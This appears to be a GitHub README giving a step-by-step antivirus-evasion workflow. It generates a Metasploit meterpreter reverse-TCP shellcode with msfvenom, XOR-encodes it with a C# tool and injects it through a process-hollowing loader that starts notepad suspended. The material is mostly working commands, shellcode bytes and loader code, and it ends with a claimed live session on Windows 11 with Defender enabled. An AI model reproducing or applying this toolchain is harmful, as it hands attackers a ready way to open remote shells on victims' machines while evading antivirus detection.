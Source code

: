 ## Built and Tested with Visual Studio 2019
credit - [https://github.com/chvancooten/OSEP-Code-Snippets/tree/main](https://github.com/chvancooten/OSEP-Code-Snippets)

Generate metasploit payload
```python
┌──(kali㉿kali)-[/tmp]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f csharp LHOST=192.168.0.247 LPORT=443 EXITFUNC=thread
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x48,0x31,
0xd2,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,
0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
```

Open XOR-Encoder.cs in visual Studio and paste in the shellcode here

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/174b751e-b5c9-4d9d-bee1-846659544001)

Change the key to XOR Encode the shellcode if you wish
```python
byte[] encoded = new byte[buffer.Length];
            for (int i = 0; i < buffer.Length; i++)
            {
                encoded[i] = (byte)((uint)buffer[i] ^ 25678998); //KEY
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            int totalCount = encoded.Length;
            for (int count = 0; count < totalCount; count++)
```

Turn off Defender on your dev machine as it will flag the raw metasploit shellcode and wont run the exe

Set to `Release` and `x64` (Change where necessary)

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/e3990de2-72e0-4106-8345-59b7372cb381)

Click Build > Build Solution

Build should happen with no errors

```python
Build started...
1>------ Build started: Project: XOR-Shellcode-Encoder, Configuration: Release x64 ------
1>  XOR-Shellcode-Encoder -> C:\Users\gd\Desktop\Custom Exploits\repos\XOR-Shellcode-Encoder\XOR-Shellcode-Encoder\bin\x64\Release\XOR-Shellcode-Encoder.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```

Navigate to the folder and run the .exe

You will get the XOR encoded shellcode

```python
PS C:\Users\gd\Desktop\Custom Exploits\repos\XOR-Shellcode-Encoder\XOR-Shellcode-Encoder\bin\x64\Release> .\XOR-Shellcode-Encoder.exe
XOR payload (key: 0xfa):
byte[] buf = new byte[511] {
0x6a, 0xde, 0x15, 0x72, 0x66, 0x7e, 0x5a, 0x96, 0x96, 0x96, 0xd7, 0xc7, 0xd7, 0xc6, 0xc4,
0xde, 0xa7, 0x44, 0xc7, 0xc0, 0xf3, 0xde, 0x1d, 0xc4, 0xf6, 0xde, 0x1d, 0xc4, 0x8e, 0xde,
0x1d, 0xc4, 0xb6, 0xde, 0x1d, 0xe4, 0xc6, 0xde, 0x99, 0x21, 0xdc, 0xdc, 0xdb, 0xa7, 0x5f,
0xde, 0xa7, 0x56, 0x3a, 0xaa, 0xf7, 0xea, 0x94, 0xba, 0xb6, 0xd7, 0x57, 0x5f, 0x9b, 0xd7,
0x97, 0x57, 0x74, 0x7b, 0xc4, 0xde, 0x1d, 0xc4, 0xb6, 0xd7, 0xc7, 0x1d, 0xd4, 0xaa, 0xde,
0x97, 0x46, 0xf0, 0x17, 0xee, 0x8e, 0x9d, 0x94, 0x99, 0x13, 0xe4, 0x96, 0x96, 0x96, 0x1d,
0x16, 0x1e, 0x96, 0x96, 0x96, 0xde, 0x13, 0x56, 0xe2, 0xf1, 0xde, 0x97, 0x46, 0xd2, 0x1d,
0xd6, 0xb6, 0x1d, 0xde, 0x8e, 0xdf, 0x97, 0x46, 0xc6, 0x75, 0xc0, 0xdb, 0xa7, 0x5f, 0xde,
0x69, 0x5f, 0xd7, 0x1d, 0xa2, 0x1e, 0xde, 0x97, 0x40, 0xde, 0xa7, 0x56, 0xd7, 0x57, 0x5f,
0x9b, 0x3a, 0xd7, 0x97, 0x57, 0xae, 0x76, 0xe3, 0x67, 0xda, 0x95, 0xda, 0xb2, 0x9e, 0xd3
```
Open `P-Hollow` in Visual Studio

Paste the XOR Encoded Shellcode in (You can turn on Defender now it wont be picked up) 

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/d8da75b5-2687-4ac8-a27a-25bd4f071332)

This is where the process is created and set to run in a suspended state. This can be changed. Currently set to Notepad which is bad opsec.

```python
            StartupInfo sInfo = new StartupInfo();
            ProcessInfo pInfo = new ProcessInfo();
            bool cResult = CreateProcess(null, "c:\\windows\\system32\\notepad.exe", IntPtr.Zero, IntPtr.Zero,
                false, CREATE_SUSPENDED, IntPtr.Zero, null, ref sInfo, out pInfo);
```

Process Hacker shows a network connection and cmd child processes 😂

![image](https://github.com/deeexcee-io/EZ-ProcessHollowing/assets/130473605/d8c058b8-fe0b-4e40-a059-66fcc1c7d596)

![image](https://github.com/deeexcee-io/EZ-ProcessHollowing/assets/130473605/cefaa838-1221-4941-9179-29c8838a3715)

If you changed the XOR Key in the previous file, ensure you change it here aswell otherwise it wont decode 

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/fd36f91e-f5fc-4d00-89c0-0ed04b66f9ac)

Set to `Release` and `x64`

Now depending on what access you already have, execute the .exe and catch in Metasploit.

Here I am executing from a network share (impacket-smbserver) I configued

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/8602d6cc-a3d1-4ecf-8363-f0f281324f03)

Fully functioning meterpreter session on latest Windows 11 with Defender Enabled

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/2dcbf6d6-951e-4b09-83fa-3d9092a87546)













